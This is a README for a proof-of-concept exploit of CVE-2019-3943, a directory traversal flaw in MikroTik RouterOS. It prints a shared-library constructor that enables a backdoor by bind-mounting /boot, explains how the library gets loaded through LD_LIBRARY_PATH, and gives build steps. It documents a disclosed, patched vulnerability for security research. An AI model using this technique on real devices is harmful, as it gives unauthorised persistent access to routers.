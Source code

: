 # CVE-2019-3943 /rw/lib Proof of Concept

This is an implementation of CVE-2019-3943 which is a directory traversal vulnerability affecting the fileman binary in Router OS. This vulnerability was patched in 6.44RC1. See Tenable's advisory at: https://www.tenable.com/security/research/tra-2019-16 

The PoC creates the directory /rw/lib and uploads a MIPSBE shared object called libz.so. The shared object actually is libz.so but I've added a constructor that does this:

```
void __attribute__((constructor)) lol(void)
{
    int fork_result = fork();
    if (fork_result == 0)
    {
        execl("/bin/bash", "bash", "-c", "mkdir /pckg/option; mount -o bind /boot/ /pckg/option", (char *) 0);
        exit(0);
    }
}
```

Why? Because of this:

```
BusyBox v1.00 (2019.07.17-09:35+0000) Built-in shell (ash)
Enter 'help' for a list of built-in commands.

# echo $LD_LIBRARY_PATH
/rw/lib:/pckg/security/lib:/pckg/dhcp/lib:/pckg/ppp/lib:/pckg/mpls/lib:/pckg/hotspot/lib:/pckg/wireless/lib:/lib
# 
```

That's right! /rw/lib/ is the first entry in the LD_LIBRARY_PATH. Anyone that loads up libz.so (there are a few) will execute the constructor and enable the back door.

Again. **This is a MIPSBE shared object!** Don't upload it on a non-MIPSBE device. /rw/lib is persistent memory and you'll have a bad time.

## What are the build dependencies?

This requires:

* Boost 1.66 or higher
* cmake

## How do I build this jawn?

Just normal cmake. Try this:

```sh
mkdir build
cd build
cmake ..
make
```

Resolve dependencies as needed.


